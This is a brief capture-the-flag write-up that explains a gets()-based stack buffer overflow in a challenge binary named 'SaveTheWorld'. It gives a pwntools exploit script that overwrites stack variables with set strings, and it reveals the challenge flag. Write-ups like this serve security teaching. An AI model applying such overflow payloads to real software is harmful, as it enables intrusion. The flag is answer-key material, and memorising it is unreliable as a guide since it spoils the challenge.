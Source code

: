 # 🔑 Write-Up

We have a trivial buffer overflow vulnerability, we just need to overwrite some stack variables with the correct values.
The input length isn't checked due to the use of `gets()` for handling user input, the target buffer is 72 bytes long, its content aren't checked against anything so we can just fill it with `A`s.
The only important thing here is overwriting the variables with the correct value and in the correct order (that's easily checked by looking at the variables position in the stack).

```python
from pwn import *

context.binary = "./SaveTheWorld"
p = process()
p.sendline(b"A" * 72 + b"Jotaro!!" + b"Star Platinum!!!" + b"HORA" + b"9999")
p.recvuntil(b"Congratulation, you won!!!")
os.system("grep .*{.*}.* victory_recap.txt")
```

### 🚩 Flag 

```plain
SPRITZ{Yare_Yare}
```